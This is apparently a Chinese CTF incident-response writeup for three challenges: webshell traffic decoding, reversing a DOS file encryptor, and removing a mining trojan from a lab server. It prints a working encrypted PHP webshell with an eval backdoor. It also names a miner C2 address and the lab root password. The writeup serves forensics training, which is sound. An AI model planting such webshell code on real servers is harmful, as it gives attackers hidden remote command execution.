







---
date:
  created: 2025-09-27
  updated: 2025-10-04
tags:
  - Solar
  - CTF
comments: true
---

# Solar 应急响应赛 9 月 Writeup

## Wireshark

一个 Webshell 流量包，有大量的 HTTP/TCP 流量记录，进行追踪（这里以最后一个流为例）；攻击者使用 `pass` 传入经过 Base64 编码与反转的参数，解码后如下：

```php
# 1qaz2wsx3edc=eu1uNDRjMzYyYjz+u2uwAH1mNsWC9MvudxUD4GxD2vZHYhmcslPc4AT6kvwn72TiprEftRcyZvWaASZ2twUSoSXCZHZrgXp1OrZJTzbT5eJdLiAUCd1+qUmpgl2Orlfucw+sWVNIRc8GzsXv8ODt4jV5jXn/LQCpCbmD2OihJd4HtL0BEOlzQGrMYUiFNRFgou2Zmus5JThj7ts0VATS5/BmZjQ=
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='1qaz2wsx3edc';
$payloadName='payload';
$key='0eff44c362b13fa2';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

原命令在经过 Base64 解码后进行加密执行；命令执行的结果经过加密后，插入到 MD5 字符串中。在 PHP 环境中进行解码（在这之后还要用 gunzip 解压一次），得到结果：

```php
echo base64_encode(encode(base64_decode("eu1uNDRjMzYyYjz+u2uwAH1mNsWC9MvudxUD4GxD2vZHYhmcslPc4AT6kvwn72TiprEftRcyZvWaASZ2twUSoSXCZHZrgXp1OrZJTzbT5eJdLiAUCd1+qUmpgl2Orlfucw+sWVNIRc8GzsXv8ODt4jV5jXn/LQCpCbmD2OihJd4HtL0BEOlzQGrMYUiFNRFgou2Zmus5JThj7ts0VATS5/BmZjQ="), $key));
```

```bash
sh -c "cd "/var/www/html/";
echo -n "ZmxhZ3tjY2ViZGI3OC00YjVjLTQyNTItYjIwYS0wMDM5OTEzYzVjOTR9" | base64 -d" 2>&1
```

由此得到 Flag 为 `flag{ccebdb78-4b5c-4252-b20a-0039913c5c94}`。

## HAPPY

16 位 DOS 可执行程序，需要借助汇编代码静态分析。基本过程：

- 打开 `FLAG.TXT` 明文
- 加密输出 `FLAG.ENC` 密文

加密过程：

- 写入 `ZX_LOCK` 头字节
- 读取时钟信息，写入两个字节（也是后面加密的种子）
- 汇编操作（直接模拟即可）

解密脚本：

```python
def decode_flag_enc(path):
    with open(path, "rb") as f:
        data = f.read()

    # Magic Bytes
    assert data[:7] == b"ZX_LOCK"
    cl = data[7]

    # Encrypt Key
    di = int.from_bytes(data[8:10], "little")
    enc_data = data[10:]

    # Apply Padding
    if cl == 1 and len(enc_data) % 2 != 0:
        enc_data += b"\x00"

    # Decryption
    result = bytearray()
    for i in range(0, len(enc_data), 2):
        ax = int.from_bytes(enc_data[i:i+2], "little")
        di = (di + 0xFADE) & 0xFFFF
        cx = ax & di
        cx = (~cx) & 0xFFFF
        dx = ax & cx
        dx = (~dx) & 0xFFFF
        ax = dx
        dx = di & cx
        dx = (~dx) & 0xFFFF
        ax = ax & dx
        ax = (~ax) & 0xFFFF
        result += ax.to_bytes(2, "little")

    if cl == 1 and enc_data[-1] == 0:
        result = result[:-1]
    return result

if __name__ == "__main__":
    decoded = decode_flag_enc("FLAG.ENC")
    print(decoded.decode(errors="replace"))
```

得到 Flag 为 `flag{D0s_L0ck3r_WitH_n4Nd_ExpRs!|solarsec_202509}`。

## 特洛伊挖矿木马事件排查

你是一名初级安全工程师，运维团队报告，公司的一台核心开发服务器（Ubuntu 22.04 LTS）出现CPU使用率异常飙高告警及安全设备检出外联挖矿事件。现在，你需要登录该服务器，排查并处置这一安全事件，并最终找出问题的根源。账号：root，密码：P@ssw0rd

### 挖矿木马

靶机我们只能登录 root 账户，首先分析进程：

```bash
# 没有 htop，使用 ps aux 列出进程
ps aux
```

在结果中发现一个位于 `/tmp` 的高占用程序，极为可疑，应为木马。故 Flag 1 为 `flag{/tmp/kworkerds}`。



尝试将木马提取出来单独分析，但只能找到一个带参字符串，无法实际地址，考虑在系统中分析：

```bash
netstat
```

在结果中发现两个 IP 外连地址，经尝试后发现 Flag 2 为 flag{104.21.6.99:10235}。



### 溯源

尝试销毁进程并清除木马：

```bash
kill 306
rm /tmp/kworkerds
# Operation not permitted
```

未能删除文件且出现了新的木马进程，考虑有任务计划（`cron`）。进一步排查，在 `/etc/cron.d` 发现了可疑的任务计划文件 `0guardian`，但经过提交，其并不是守护进程脚本文件。

于是变换思路，先使用[题目给出的网站](http://chat.internal-dev.net:8081)通过聊天排查。

- 小张执行了重启脚本 `restart_app.sh`，简单分析脚本内容，没有发现问题；
- 追问小王，发现其从搜索引擎获取了工具，怀疑是木马来源，获得线索。


故 Flag 4 为 `flag{http://www.superlog-pro.com}`。登陆该网站，分析安装程序：



通过逆向，在程序中发现了植入木马的过程，以及写守护进程文件的函数：



确定 Flag 3 为 `flag{/usr/bin/.0guardian}`。接着分析字符串，得到受到感染的程序如下：



根据题意，得到 Flag 5 为 `md5(/bin/ls,/bin/ps,/bin/cat,/bin/rm,/bin/ss,/usr/bin/stat,/usr/bin/top,/usr/bin/wget,/usr/bin/curl,/usr/bin/vi,/usr/bin/sudo)` -> `flag{dac48e98a53b81b0218e2156e364f7ba}`。

### 恢复

使用 `/deb_final` 中的软件包恢复程序：

```bash
cd /deb_final
# 安装目录下所有包
dpkg -i *
```

获得 `/var/flag/1` 对应 Flag 6：



最后进行进一步清理：

```bash
# 先停止计划任务服务，避免木马再次启动
systemctl stop cron

# 删除任务计划与守护进程
rm /etc/cron.d/0guardian
rm /usr/bin/.0guardian

# 销毁木马进程并清除木马
kill "<PID of trojan>"
rm /tmp/kworkerds

# 恢复服务运行
systemctl start cron
```

获得 `/var/flag/2` 对应 Flag 7：


